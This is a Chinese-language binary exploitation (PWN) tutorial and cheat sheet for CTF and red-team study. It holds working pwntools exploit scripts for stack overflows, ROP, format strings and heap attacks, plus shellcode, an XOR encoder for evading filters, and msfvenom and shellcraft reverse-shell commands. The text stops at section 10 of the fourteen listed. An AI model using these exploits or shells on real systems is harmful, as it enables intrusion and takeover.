

# 🧨 二进制漏洞利用（PWN）全技巧

> **攻击视角**：站在渗透测试/红队视角，系统梳理二进制漏洞利用的完整知识体系，从内存布局基础到高级堆利用、内核利用，覆盖栈、堆、格式化字符串等核心攻击面。
>
> **难度分级**：🟢 入门 → 🔵 进阶 → 🔴 高级

---

## 📑 目录

- [一、PWN基础概念](#一pwn基础概念)
- [二、环境搭建与工具链](#二环境搭建与工具链)
- [三、保护机制速查（Checksec）](#三保护机制速查checksec)
- [四、栈溢出利用（Stack Overflow）](#四栈溢出利用stack-overflow)
- [五、ROP（返回导向编程）](#五rop返回导向编程)
- [六、Shellcode编写技术](#六shellcode编写技术)
- [七、格式化字符串漏洞（Format String）](#七格式化字符串漏洞format-string)
- [八、堆利用（Heap Exploitation）](#八堆利用heap-exploitation)
- [九、整数溢出（Integer Overflow）](#九整数溢出integer-overflow)
- [十、Linux内核Pwn](#十linux内核pwn)
- [十一、绕过技术全解](#十一绕过技术全解)
- [十二、PWN实战流程](#十二pwn实战流程)
- [十三、防御与检测](#十三防御与检测)
- [十四、工具速查表](#十四工具速查表)

---

## 一、PWN基础概念

### 1.1 什么是PWN

PWN 是 CTF 和渗透测试中最硬核的方向——利用程序中的内存破坏漏洞，控制其执行流，最终获取目标系统的控制权（Shell 或管理员权限）。

```
┌─────────────────────────────────────────────────────────┐
│                  PWN 攻击链全景                          │
├──────────────┬──────────────┬───────────────────────────┤
│  漏洞挖掘    │   漏洞利用   │    攻击达成                │
│              │              │                           │
│ 反汇编分析   │ 构造Payload  │  获取Shell                │
│ 模糊测试     │ 绕过保护机制 │  权限提升                │
│ 源码审计     │ ROP链拼接   │  横向移动                │
│ 动态调试     │ 堆风水布局   │  持久化                  │
└──────────────┴──────────────┴───────────────────────────┘
```

### 1.2 进程内存布局

理解内存布局是 PWN 的基石。一个典型的 Linux 进程虚拟内存空间如下：

```
┌─────────────────────────┐ ← 高地址 (0xFFFFFFFF)
│   内核空间              │
├─────────────────────────┤
│   栈 (Stack)            │ ← 向低地址增长 (ESP/RSP)
│   ↓                     │
├─────────────────────────┤
│   共享库映射             │ ← mmap / libc.so
├─────────────────────────┤
│   ↑                     │
│   堆 (Heap)             │ ← 向高地址增长 (brk)
├─────────────────────────┤
│   BSS段 (未初始化全局)  │
├─────────────────────────┤
│   数据段 (已初始化全局)  │
├─────────────────────────┤
│   代码段 (.text)         │ ← 只读、可执行
└─────────────────────────┘ ← 低地址 (0x08048000)
```

| 内存区域 | 权限 | 用途 | 增长方向 |
|:--------|:----|:----|:--------|
| 代码段 (.text) | R-X | 可执行指令 | 固定 |
| 数据段 (.data) | RW- | 已初始化全局变量 | 固定 |
| BSS段 | RW- | 未初始化全局变量 | 固定 |
| 堆 (Heap) | RW- | 动态分配 (malloc/new) | 低→高 |
| 栈 (Stack) | RW- | 局部变量、函数调用 | 高→低 |
| 共享库 | R-X | libc、ld-linux 等 | 随机化 |

### 1.3 x86/x64 寄存器速查

#### 32位 (x86)

| 寄存器 | 名称 | 用途 |
|:------|:----|:-----|
| EAX | 累加器 | 函数返回值、系统调用号 |
| EBX | 基址 | 数据基址 |
| ECX | 计数 | 循环计数、参数传递 |
| EDX | 数据 | I/O 操作、参数传递 |
| ESI | 源索引 | 字符串操作源地址 |
| EDI | 目标索引 | 字符串操作目标地址 |
| ESP | **栈指针** | 指向栈顶 |
| EBP | **基址指针** | 栈帧基址 |
| EIP | **指令指针** | 下一条要执行的指令地址 |

#### 64位 (x86-64)

| 寄存器 | 调用约定 | 用途 |
|:------|:--------|:-----|
| RDI | 第1个参数 | syscall 第1参 |
| RSI | 第2个参数 | syscall 第2参 |
| RDX | 第3个参数 | syscall 第3参 |
| RCX | 第4个参数 | syscall 第4参 |
| R8 | 第5个参数 | |
| R9 | 第6个参数 | |
| RSP | 栈指针 | |
| RIP | 指令指针 | |
| RAX | 返回值/系统调用号 | 64位 syscall 使用 `syscall` 指令 |

### 1.4 系统调用速查

Linux x86 使用 `int 0x80`，x64 使用 `syscall` 指令。

| 系统调用 | 32位 (EAX) | 64位 (RAX) | 功能 |
|:--------|:----------|:----------|:----|
| sys_read | 3 | 0 | 读文件/输入 |
| sys_write | 4 | 1 | 写文件/输出 |
| sys_open | 5 | 2 | 打开文件 |
| sys_mmap | 90 | 9 | 内存映射 |
| sys_mprotect | 125 | 10 | 修改内存权限 |
| sys_execve | 11 | 59 | 执行程序 |
| sys_exit | 1 | 60 | 退出进程 |

---

## 二、环境搭建与工具链

### 2.1 基础工具安装

```bash
# ─── 基础工具 ───
sudo apt install -y gcc gdb gdb-multiarch python3 python3-pip nasm
sudo apt install -y binutils patchelf

# ─── Pwntools（Python Exploit 开发框架）───
pip3 install pwntools

# ─── GDB 插件（推荐）───
# Pwndbg（最推荐，功能全面）
git clone https://github.com/pwndbg/pwndbg ~/pwndbg
cd ~/pwndbg && ./setup.sh

# GEF（轻量级替代）
# bash -c "$(curl -fsSL https://gef.blah.cat/sh)"

# Peda（经典）
# git clone https://github.com/longld/peda.git ~/peda
# echo "source ~/peda/peda.py" >> ~/.gdbinit
```

### 2.2 Pwntools 快速上手

```python
#!/usr/bin/env python3
from pwn import *

# ─── 连接目标 ───
# 本地进程
p = process('./vuln')
# 远程连接
# p = remote('target.com', 1337)
# SSH
# s = ssh(host='target', user='user', password='pass')

# ─── ELF 解析 ───
elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 获取符号地址
main_addr   = elf.symbols['main']
system_plt  = elf.plt['system']
puts_got    = elf.got['puts']
puts_plt    = elf.plt['puts']

# ─── 搜索字符串 ───
bin_sh = next(elf.search(b'/bin/sh'))

# ─── ROP 自动搜索 ───
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# ─── 发送 Payload ───
p.sendline(b'A' * 100)
p.recvuntil(b'> ')
p.send(payload)
p.interactive()
```

### 2.3 常用工具一览

| 工具 | 用途 | 安装方式 |
|:----|:----|:--------|
| **Pwntools** | Exploit 开发框架 | `pip3 install pwntools` |
| **GDB + Pwndbg** | 动态调试 | apt + git |
| **IDA Pro** | 静态反汇编（商业） | 官网购买 |
| **Ghidra** | 开源反汇编（NSA） | 官网下载 |
| **ROPgadget** | 搜索 ROP Gadget | `pip3 install ROPgadget` |
| **one_gadget** | 搜索 libc one_gadget | `gem install one_gadget` |
| **LibcSearcher** | libc 版本识别 | `pip3 install LibcSearcher` |
| **checksec** | 查看保护机制 | `pip3 install checksec` |
| **pwntools checksec** | pwntools 内置 | `checksec ./vuln` |
| **Ropper** | ROP Gadget 搜索 | `pip3 install ropper` |
| **angr** | 符号执行分析 | `pip3 install angr` |

---

## 三、保护机制速查（Checksec）

### 3.1 常见保护机制

```bash
$ checksec --file=./vuln
[*] '/home/user/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    ASLR:       Enabled
    FORTIFY:    Enabled
```

| 保护机制 | 说明 | 绕过难度 | 绕过方式 |
|:--------|:----|:--------|:--------|
| **NX (No-Execute)** | 栈/堆不可执行 | 🟡 中 | ROP / Ret2Libc |
| **ASLR** | 地址随机化 | 🟡 中 | 信息泄露 / 爆破 |
| **PIE** | 程序基址随机化 | 🟡 中 | 泄露代码段地址 |
| **Stack Canary** | 栈溢出检测 | 🟡 中 | 泄露 Canary |
| **RELRO** | GOT 表保护 | 🟢 低~🔴 高 | Partial: 可写 GOT |
| **FORTIFY_SOURCE** | 编译时安全检查 | 🟢 低 | 绕过检查逻辑 |

### 3.2 RELRO 详解

| RELRO 级别 | 说明 | 攻击难度 |
|:----------|:----|:--------|
| **No RELRO** | GOT 完全可写 | 🟢 低 —— 直接覆写 GOT |
| **Partial RELRO** | GOT 可写（默认） | 🟡 中 —— 可覆写 GOT |
| **Full RELRO** | GOT 只读 | 🔴 高 —— 需其他手法 |

### 3.3 如何编译不同保护级别的二进制

```bash
# 关闭所有保护（学习用）
gcc -o vuln vuln.c -fno-stack-protector -no-pie -z execstack -m32

# 仅开启 Canary
gcc -o vuln vuln.c -fstack-protector -no-pie -z noexecstack

# 开启全部保护
gcc -o vuln vuln.c -fstack-protector-all -pie -z now -z relro -z noexecstack

# 关闭 ASLR（调试时）
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
# 开启 ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## 四、栈溢出利用（Stack Overflow）

### 4.1 🟢 基础：覆盖返回地址

**原理**：当向局部缓冲区写入超过其大小的数据时，会覆盖栈上保存的 EBP（RBP）和返回地址，控制 EIP（RIP）。

#### x86 栈帧结构

```
低地址
┌─────────────────────┐
│ 局部变量（向下增长） │ ← ESP
├─────────────────────┤
│ ...                 │
├─────────────────────┤
│ 局部变量 buffer[]   │
├─────────────────────┤
│ 保存的 EBP (4字节)  │ ← 覆盖这里不影响执行
├─────────────────────┤
│ 返回地址 (4字节)     │ ← 关键！覆盖此处控制 EIP
├─────────────────────┤
│ 函数参数             │
└─────────────────────┘
高地址
```

#### 典型漏洞代码

```c
#include <stdio.h>
#include <string.h>

void vulnerable() {
    char buf[64];          // 64 字节缓冲区
    read(0, buf, 0x100);   // 🚨 256 字节读入 → 溢出！
}

int main() {
    vulnerable();
    return 0;
}
```

#### 找偏移量（关键步骤）

**方法1：pwntools cyclic**

```python
from pwn import *

# 生成 200 字节模式字符串
pattern = cyclic(200)
print(pattern)
# b'aaaabaaacaaadaaaeaaafaaagaaahaaa...'

# 在 GDB 中运行，程序崩溃后查看 EIP/RIP
# 假设 RIP = 0x6161616c ('laaa')
offset = cyclic_find(b'laaa')
print(offset)  # 输出偏移量，例如 76
```

**方法2：pattern.py（msf）**

```bash
# 生成
msf-pattern_create -l 200
# 查找偏移
msf-pattern_offset -q 0x6161616c
```

#### 基础 Exploit（32位，无保护）

```python
from pwn import *

p = process('./vuln')
elf = ELF('./vuln')

offset = 76                    # 溢出偏移量
win_addr = elf.symbols['win']  # 目标函数地址

payload = b'A' * offset        # 填充
payload += p32(win_addr)       # 覆盖返回地址

p.sendline(payload)
p.interactive()
```

### 4.2 🟢 确定偏移量：通用方法

| 方法 | 命令/工具 | 适用场景 |
|:----|:---------|:--------|
| cyclic 模式 | `cyclic(200)` / `cyclic_find(value)` | 所有场景 |
| GDB 分析 | `pattern create 200` in pwndbg | 动态调试 |
| 反汇编计算 | IDA/Ghidra 看 `sub esp, 0x...` | 无源码 |
| 模糊测试 | 逐字节递增 | 简单场景 |

### 4.3 🟢 NOP Sled + Shellcode

当 NX 未开启时（`-z execstack`），可以直接在栈上执行 Shellcode。

```python
from pwn import *

p = process('./vuln')
elf = ELF('./vuln')

offset = 76

# 生成 Shellcode
shellcode = asm(shellcraft.sh())
# 或使用 msfvenom
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=... LPORT=... -f py

# NOP Sled + Shellcode + 覆盖返回地址
nop_sled = b'\x90' * 100
buf_addr = 0xffffd500  # 需要调试确定栈地址

payload  = nop_sled
payload += shellcode
payload += b'A' * (offset - len(nop_sled) - len(shellcode))
payload += p32(buf_addr)

p.sendline(payload)
p.interactive()
```

### 4.4 🟡 Ret2Libc（绕过 NX）

当 NX 开启时，不能执行栈上的代码。Ret2Libc 通过调用 libc 中的 `system("/bin/sh")` 来获取 Shell。

```python
from pwn import *

p = process('./vuln_32')
elf = ELF('./vuln_32')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

offset = 76

# 获取 PLT/GOT 地址
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# 阶段1：泄露 puts 在 libc 中的实际地址
payload  = b'A' * offset
payload += p32(puts_plt)       # 调用 puts(puts_got)
payload += p32(main_addr)      # 返回 main（循环利用）
payload += p32(puts_got)       # puts 的参数 = puts@got

p.sendline(payload)
p.recvline()  # 接收 puts 输出
leaked = u32(p.recv(4))        # 解析泄露的地址

# 计算 libc 基址
libc_base = leaked - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success(f'libc base: {hex(libc_base)}')

# 阶段2：调用 system("/bin/sh")
payload2  = b'A' * offset
payload2 += p32(system_addr)
payload2 += p32(0xdeadbeef)    # 返回地址（崩溃也行）
payload2 += p32(bin_sh_addr)

p.sendline(payload2)
p.interactive()
```

### 4.5 🟡 Ret2Libc (64位)

64位与32位的关键区别：参数通过寄存器传递（RDI, RSI, RDX, RCX, R8, R9），需要 `pop rdi; ret` gadget。

```python
from pwn import *

p = process('./vuln_64')
elf = ELF('./vuln_64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

offset = 72  # 64位下通常偏移不同

# 搜索 ROP gadget
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]  # 用于栈对齐

# 泄露 puts 地址
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

payload  = b'A' * offset
payload += p64(ret)            # 栈对齐（16字节对齐要求）
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.sendline(payload)
p.recvline()
leaked = u64(p.recv(6).ljust(8, b'\x00'))

libc_base = leaked - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# 二次触发
payload2  = b'A' * offset
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh_addr)
payload2 += p64(ret)           # 栈对齐（重要！）
payload2 += p64(system_addr)

p.sendline(payload2)
p.interactive()
```

> ⚠️ **64位栈对齐**：在 64 位系统中调用 system() 前，RSP 必须 16 字节对齐。如果崩溃，在 gadget 链中加一个 `ret` gadget。

---

## 五、ROP（返回导向编程）

### 5.1 🟡 ROP 原理

ROP（Return-Oriented Programming）通过拼接程序中已有的以 `ret` 结尾的指令片段（Gadget）来构造攻击链，绕过 NX 保护。

```
┌─────────────────────────────────────────────┐
│              ROP 链示意                       │
├─────────────────────────────────────────────┤
│ 栈增长方向 ↓                                  │
│                                              │
│ [Gadget 1 地址]  ← pop eax; ret              │
│ [Gadget 1 参数 ]  ← 0xb (execve 调用号)     │
│ [Gadget 2 地址]  ← pop ebx; ret              │
│ [Gadget 2 参数 ]  ← &"/bin/sh"               │
│ [Gadget 3 地址]  ← pop ecx; ret              │
│ [Gadget 3 参数 ]  ← 0                        │
│ [Gadget 4 地址]  ← pop edx; ret              │
│ [Gadget 4 参数 ]  ← 0                        │
│ [Gadget 5 地址]  ← int 0x80                  │
└─────────────────────────────────────────────┘
```

### 5.2 🟡 Gadget 搜索

```bash
# 使用 ROPgadget
ROPgadget --binary vuln > gadgets.txt
ROPgadget --binary vuln --only "pop|ret" | grep "eax"
ROPgadget --binary vuln | grep "int 0x80"

# 使用 pwntools ROP 模块（自动化）
from pwn import *
rop = ROP('./vuln')
rop.find_gadget(['pop rdi', 'ret'])
rop.dump()

# 使用 ropper
ropper --file vuln --search "pop eax"
ropper --file vuln --search "int 0x80"
```

### 5.3 🟡 常用 Gadget 速查

#### 32位 (x86)

| Gadget | 用途 | 示例 |
|:------|:----|:----|
| `pop eax; ret` | 设置系统调用号 | |
| `pop ebx; ret` | 设置第1个参数 | |
| `pop ecx; ret` | 设置第2个参数 | |
| `pop edx; ret` | 设置第3个参数 | |
| `int 0x80` | 触发系统调用 | |
| `pop ebp; ret` | 栈帧控制 | |
| `leave; ret` | 栈帧切换（Stack Pivot） | |

#### 64位 (x86-64)

| Gadget | 用途 |
|:------|:----|
| `pop rdi; ret` | 设置第1个参数 |
| `pop rsi; ret` | 设置第2个参数 |
| `pop rdx; ret` | 设置第3个参数 |
| `pop rax; ret` | 设置系统调用号 |
| `pop rcx; ret` | 循环计数 |
| `pop r8; ret` | 设置第5个参数 |
| `pop r9; ret` | 设置第6个参数 |
| `syscall; ret` | 触发系统调用（x64）|
| `ret` | 栈对齐 / NOP |

### 5.4 🔵 Ret2syscall（完整ROP链）

当 libc 地址未知时，可以直接调用系统调用。

```python
from pwn import *

p = process('./vuln')
elf = ELF('./vuln')

# 查找 gadget
pop_eax = 0x080bb196
pop_ebx = 0x080481c9
pop_ecx = 0x080de769
pop_edx = 0x080d8833
int_80  = 0x08049421

# "/bin/sh" 在程序中的地址
bin_sh = next(elf.search(b'/bin/sh'))

offset = 76

payload  = b'A' * offset
payload += p32(pop_eax) + p32(0xb)      # execve 调用号 11
payload += p32(pop_ebx) + p32(bin_sh)   # 文件名
payload += p32(pop_ecx) + p32(0)         # argv = NULL
payload += p32(pop_edx) + p32(0)         # envp = NULL
payload += p32(int_80)                   # 触发系统调用

p.sendline(payload)
p.interactive()
```

### 5.5 🔵 Ret2dlresolve

当没有 libc 泄露且没有 system 在 PLT 时使用，通过模拟动态链接器行为调用任意函数。

```python
from pwn import *

elf = ELF('./vuln')
rop = ROP(elf)

# pwntools 自动构造 Ret2dlresolve Payload
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.raw(b'A' * offset)
rop.ret2dlresolve(dlresolve)

payload = rop.chain()
p.sendline(payload)
```

### 5.6 🔵 SROP (Sigreturn-Oriented Programming)

利用 `sigreturn` 系统调用，伪造 `sigframe` 一次性设置所有寄存器。

```python
from pwn import *

context.arch = 'amd64'

# 需要 "syscall; ret" gadget 和 "sigreturn" gadget
syscall_ret = 0x...  # syscall; ret
sigreturn = 0x...    # syscall 前设置 rax=15

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_ret

payload  = b'A' * offset
payload += p64(sigreturn)
payload += bytes(frame)
```

---

## 六、Shellcode编写技术

### 6.1 🟢 生成 Shellcode

```bash
# Pwntools
python3 -c "from pwn import *; print(asm(shellcraft.sh()));"

# msfvenom（反向连接）
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 \
         -f py -v shellcode

# msfvenom（绑定端口）
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f py
```

### 6.2 🟢 Pwntools Shellcraft

```python
from pwn import *

# 本地执行 /bin/sh
code = shellcraft.sh()

# 反向连接 shell
code = shellcraft.connect('192.168.1.1', 4444)

# 绑定端口 shell
code = shellcraft.bind(4444)

# 读取文件
code = shellcraft.cat('flag.txt')

# 自定义系统调用
code = shellcraft.syscall('SYS_execve', '/bin/sh', 0, 0)

# 编译为机器码
shellcode = asm(code)
print(shellcode.hex())
```

### 6.3 🟡 手写无 NULL Shellcode

```nasm
; Linux x86 execve("/bin/sh", NULL, NULL)
; 长度: 23 字节，无 NULL 字节
BITS 32

    xor eax, eax        ; 清零 eax（避免 NULL）
    push eax            ; 终止字符串 NULL
    push 0x68732f2f     ; "//sh"
    push 0x6e69622f     ; "/bin"
    mov ebx, esp        ; ebx = "/bin//sh"
    xor ecx, ecx        ; argv = NULL
    xor edx, edx        ; envp = NULL
    mov al, 0xb         ; sys_execve = 11
    int 0x80
```

```python
# 等效的 pwntools shellcode
from pwn import *
context.arch = 'i386'
shellcode = asm('''
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    mov al, 0xb
    int 0x80
''')
```

### 6.4 🟡 编码 Shellcode 绕过过滤器

```python
from pwn import *

shellcode = asm(shellcraft.sh())

# XOR 编码
encoded = xor(shellcode, 0xAA)

# 添加解码器 stub
decoder = asm('''
    pop esi
    xor ecx, ecx
    mov cl, 0x%x
decode:
    xor byte [esi], 0xAA
    inc esi
    loop decode
    jmp esi
''' % len(shellcode))

final = decoder + encoded

# 或使用 pwntools 内置编码器
from pwn.encoders.encoder import encoder
encoded = encoder(shellcode, avoid=b'\x00\x0a\x0d')
```

### 6.5 常见 Shellcode 长度参考

| Shellcode 类型 | x86 长度 | x64 长度 |
|:--------------|:---------|:---------|
| execve "/bin/sh" | 23 字节 | 22 字节 |
| 绑定端口 (4444) | 约 100 字节 | 约 120 字节 |
| 反向连接 (LHOST=127.1, LPORT=4444) | 约 70 字节 | 约 90 字节 |
| 读取文件 | 约 60 字节 | 约 80 字节 |

---

## 七、格式化字符串漏洞（Format String）

### 7.1 🟢 漏洞原理

```c
printf(user_input);  // 🚨 危险！用户控制格式化字符串
// ✅ 正确的写法：printf("%s", user_input);
```

### 7.2 🟢 信息泄露（读取栈）

```python
# 泄露栈上内容
# %p 以十六进制输出指针
# %s 输出字符串
# %n 写入已打印的字符数（用于任意写）

# 查看第 1~10 个参数
payload = b'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p'
p.sendline(payload)

# 直接访问第 n 个参数（n$ 语法）
payload = b'%6$p'  # 读取第 6 个参数（通常是栈上数据）
```

### 7.3 🟡 任意地址读

```python
# 将目标地址放在 payload 前面，用 %s 读取
target_addr = elf.got['puts']  # 要读取的地址

payload  = p32(target_addr)    # 放在开头，也是 printf 的第 1 个参数
payload += b'%6$s'             # 读取第 6 个参数（即 target_addr）指向的字符串

p.sendline(payload)
leaked = p.recv(4)
```

### 7.4 🔵 任意地址写（GOT 劫持）

利用 `%n` 在指定地址写入已输出字符数。

```python
# 将 puts@got 覆盖为 system 的地址
puts_got = elf.got['puts']
system_addr = libc.symbols['system']  # 需要已知 libc 基址

# 拆分为两个字节写入（32位）
# 高 2 字节和低 2 字节分别写入
low  = system_addr & 0xffff
high = (system_addr >> 16) & 0xffff

payload  = p32(puts_got)       # 写入目标地址（低2字节）
payload += p32(puts_got + 2)   # 写入目标地址（高2字节）

# 构造写入
if low < high:
    payload += b'%' + str(low - 8).encode() + b'c%6$hn'
    payload += b'%' + str(high - low).encode() + b'c%7$hn'
else:
    payload += b'%' + str(high - 8).encode() + b'c%7$hn'
    payload += b'%' + str(low - high).encode() + b'c%6$hn'

p.sendline(payload)
```

> 💡 **更简单的方法**：使用 pwntools 的 `fmtstr_payload` 自动构造

```python
from pwn import *

# 自动构造格式化字符串 Payload
payload = fmtstr_payload(offset=6, 
    writes={elf.got['puts']: system_addr})
p.sendline(payload)
```

### 7.5 格式化字符串常用格式

| 格式 | 含义 | 用途 |
|:----|:----|:----|
| `%d` | 十进制整数 | 读取整数 |
| `%x` | 十六进制 | 读取十六进制 |
| `%p` | 指针 | 读取地址 |
| `%s` | 字符串 | **读取字符串（任意地址读）** |
| `%n` | 写入已打印字符数 | **任意地址写** |
| `%hn` | 写入2字节 | 精确地址写 |
| `%hhn` | 写入1字节 | 最精确地址写 |
| `%<n>$p` | 第n个参数 | 定位栈上参数 |
| `%<n>$s` | 第n个参数读字符串 | 结合地址实现任意读 |
| `%<n>$n` | 第n个参数写 | 任意地址写 |

---

## 八、堆利用（Heap Exploitation）

### 8.1 🟢 堆基础

#### 堆管理器结构

```
┌─────────────────────────────────────────────┐
│               堆布局示意                       │
├─────────────────────────────────────────────┤
│  Top Chunk                                    │
│  ↓ 高地址                                     │
├─────────────────────────────────────────────┤
│  Chunk (已分配)     ← user data (fd/bk)     │
│ Chunk Header: prev_size | size | fd | bk    │
├─────────────────────────────────────────────┤
│  Chunk (Free)       ← Unsorted Bin          │
├─────────────────────────────────────────────┤
│  Chunk (已分配)                              │
├─────────────────────────────────────────────┤
│  Chunk (Free)       ← Fastbin (LIFO)        │
├─────────────────────────────────────────────┤
│  Chunk Header                                 │
│  prev_size | size | fd | bk                  │
└─────────────────────────────────────────────┘
```

#### Chunk 结构（glibc malloc）

```
┌──────────────────────────────────┐
│ prev_size (8字节)                │ ← 上一个块的大小（若上一个块空闲）
├──────────────────────────────────┤
│ size (8字节)                     │ ← 当前块大小（最低3位为标志位）
│   bit 0: PREV_INUSE              │
│   bit 1: IS_MMAPPED              │
│   bit 2: NON_MAIN_ARENA          │
├──────────────────────────────────┤
│ fd (指针，8字节)                  │ ← 仅空闲块：指向下一个空闲块
├──────────────────────────────────┤
│ bk (指针，8字节)                  │ ← 仅空闲块：指向上一个空闲块
├──────────────────────────────────┤
│ ... user data ...                │ ← malloc 返回的指针
└──────────────────────────────────┘
```

#### Bin 分类

| Bin 类型 | 大小范围 | 特点 |
|:--------|:--------|:----|
| **Fastbin** | 0x20~0x80 (32/64位不同) | 单链表 LIFO，不合并 |
| **Tcache** | 0x20~0x410 (glibc 2.26+) | 单链表，每线程独立 |
| **Unsorted Bin** | 所有大小 | 双向链表，碎片整理 |
| **Small Bin** | 0x20~0x3F0 | 双向链表 FIFO |
| **Large Bin** | >= 0x400 | 双向链表，按大小排序 |

### 8.2 🟡 堆溢出（Heap Overflow）

```c
void vulnerable() {
    char *a = malloc(32);  // chunk 1
    char *b = malloc(32);  // chunk 2
    char *c = malloc(32);  // chunk 3
    
    // 🚨 溢出写入 a 的数据覆盖了 b 的 chunk header
    read(0, a, 64);
}
```

### 8.3 🟡 UAF（Use After Free）

```c
void vulnerable() {
    char *p = malloc(32);
    free(p);         // 释放后
    strcpy(p, "hello");  // 🚨 使用已释放的指针！
}
```

### 8.4 🟡 Fastbin Attack

```python
from pwn import *

# 伪造 Fastbin 的 fd 指针指向 target
# 连续两次 malloc 同一大小的 fastbin 后，第三次会拿到 target 地址

# 假设：
# 第1次分配 chunk_a
# 第2次分配 chunk_b
# free(chunk_a)
# free(chunk_b)

# 修改 chunk_b 的 fd 指向 __malloc_hook（在 libc 中）
payload = p64(0) + p64(0x71)        # 伪造 chunk header
payload += p64(malloc_hook - 0x23)  # 覆盖 fd

# 分配两次，第二次会拿到 malloc_hook 附近
```

### 8.5 🔵 Tcache Attack

Tcache 是 glibc 2.26 引入的每线程缓存，利用相对简单。

```python
# Tcache Poisoning（最常用）
# 1. 分配 A, B, C 三个相同大小的 chunk
# 2. free(A), free(B), free(C)
# 3. 修改 C 的 fd 指向 target
# 4. malloc() → C, malloc() → B, malloc() → target

payload = p64(target_addr)  # 覆盖 tcache 的 fd 指针
p.sendline(payload)

# 触发两次 malloc
heap_a = malloc(0x20)
heap_b = malloc(0x20)  # 这次会分配到 target 地址
```

### 8.6 🔵 Unsorted Bin Attack

```python
# Unsorted Bin Attack：当 unsorted bin 中的 chunk 被取出时，
# 其 bk 指针会被写入到特定位置

# 常用于攻击 global_max_fast 或 libc 中的其他全局变量

payload = p64(0) + p64(target_addr)  # 覆盖 bk 指针
# 下一次分配会触发：*(target_addr + 0x10) = unsorted_bin_addr
```

### 8.7 🔵 House of 系列技术

| 技术名 | 适用版本 | 原理 | 用途 |
|:------|:--------|:----|:----|
| **House of Force** | < glibc 2.29 | 覆盖 top chunk size | 任意地址分配 |
| **House of Spirit** | 所有版本 | 伪造 fastbin chunk | 控制栈上数据 |
| **House of Einherjar** | < glibc 2.29 | 利用空字节溢出 | 任意地址分配 |
| **House of Orange** | < glibc 2.26 | 伪造 top chunk 写入 _IO_list_all | getshell |
| **House of Lore** | 所有版本 | 利用 small bin | 任意地址分配 |
| **House of Storm** | < glibc 2.30 | 结合 unsorted bin + large bin | 任意地址写 |

### 8.8 常用堆利用技巧速查

| 技巧 | 所需原语 | 效果 | 难度 |
|:----|:--------|:----|:----|
| Tcache Poisoning | UAF / 堆溢出 | 任意地址分配 | 🟡 |
| Fastbin Attack | UAF / Double Free | 任意地址分配 | 🟡 |
| Unsorted Bin Leak | UAF / 堆溢出 | 泄露 libc 地址 | 🟡 |
| House of Force | 堆溢出 | 任意地址分配 | 🔵 |
| Tcache Dup | Double Free | 任意地址分配 | 🟡 |
| Overlapping Chunks | 堆溢出 / UAF | 扩大 chunk 影响范围 | 🔵 |
| FSOP | 文件流指针覆盖 | getshell | 🔴 |

---

## 九、整数溢出（Integer Overflow）

### 9.1 🟢 原理

```c
unsigned short x = 0xffff;
x += 1;  // x = 0（溢出环绕）

// 🚨 危险代码
void vulnerable(size_t len) {
    char *buf = malloc(len + 1);  // 如果 len = 0xffffffff，len+1 = 0
    read(0, buf, len);            // 堆溢出！
}
```

### 9.2 常见溢出类型

| 类型 | 示例 | 危害 |
|:----|:----|:----|
| 无符号上溢 | `uint16 x = 65535; x++` → 0 | 分配过小缓冲区 |
| 有符号下溢 | `int x = -1; x - 1` → 2147483647 | 绕过长度检查 |
| 截断溢出 | `uint64 → uint32` | 长度绕过 |
| 符号比较 | `strlen() → size_t` 与 `int` 比较 | 绕过检查 |

---

## 十、Linux内核Pwn

### 10.1 概览

内核 Pwn 目标：以 root 权限执行任意代码，或提权到 root。

```mermaid
flowchart LR
    subgraph 用户态
        A[用户程序] -->|系统调用| B[内核]
    end
    subgraph 内核态
        B --> C{漏洞点}
        C -->|栈溢出| D[控制内核栈]
        C -->|堆溢出| E[控制内核对象]
        C -->|UAF| F[提权]
        C -->|条件竞争| G[特权操作]
    end
    D --> H[commit_creds(prepare_kernel_cred(0))]
    E --> H
    F --> H
    G --> H
    H --> I[Root Shell]
```

### 10.2 内核保护机制

| 保护 | 说明 | 绕过 |
|:----|:----|:----|
| SMEP | 内核不得执行用户态代码 | ROP 链 |
| SMAP | 内核不得访问用户态数据 | 禁用 SMAP / 映射内核内存 |
| KASLR | 内核地址随机化 | 信息泄露 |
